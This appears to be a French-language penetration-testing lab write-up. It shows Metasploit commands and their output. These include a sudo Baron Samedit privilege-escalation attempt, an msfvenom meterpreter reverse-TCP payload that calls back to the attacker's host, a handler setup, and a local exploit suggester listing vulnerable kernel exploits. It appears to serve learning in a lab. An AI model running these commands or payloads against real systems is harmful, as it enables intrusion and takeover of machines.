 ```sh
# démarrer un nouvel handler sur un autre port, le 4444 étant utilisé par notre shell actuel
set LPORT 4445
# metasploit garde en tête le dernier module utilisé, dans notre cas : multi/handler
run
```

```sh
use exploit/linux/local/sudo_baron_samedit
run session=4 verbose=true
[*] Started reverse TCP handler on 192.168.1.122:4444 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: php
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Using 'python3' to run exploit
[*] Writing '/tmp/iXK8nqiJ6z.py' (763 bytes) ...
[*] Creating directory /tmp/libnss_LZzzE
[*] /tmp/libnss_LZzzE created
[*] Writing '/tmp/libnss_LZzzE/c .so.2' (540 bytes) ...
[*] Running python3 /tmp/iXK8nqiJ6z.py 56 54 63 212 LZzzE/c /tmp
[*] 
[*] Alternative exploit target(s) exist for this OS version:
[*] 2: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31) - alternative
[*] Run `set target <id>` to select an alternative exploit script
[*] Exploit completed, but no session was created.
```

mouais, apparement "ca marche" mais on a pas de sessions. premier problème à adresser : la sessions reverse shell qu'on a est php et n'est pas compatible.

### pivoter vers un vrai meterpreter linux ?

```sh
# générer un nouveau payload
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=48445 -f elf -o lin.bin
```

on obtient un fichier exécutable qui va nous ouvrir une "vrai" session meterpreter.

```sh
# nouvel handler
use multi/handler
set PAYLOAD payload/linux/x64/meterpreter_reverse_tcp # il faut changer le type de payload
set LPORT 4445
run
```


uploader le payload sur la cible, puis background la session meterpreter, rerun le handler, run le payload via la faille de 04-apache-80.

Et là on optient un session x64/linux sur lequel on va pouvoir jouer le exploit_suggester.

```sh
use post/multi/recon/local_exploit_suggester
run session=4 # la session x64/linux

 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/gameoverlay_privesc                             Yes                      The target is vulnerable. Focal Fossa with 5.4.0-208-generic kernel is vunerable
```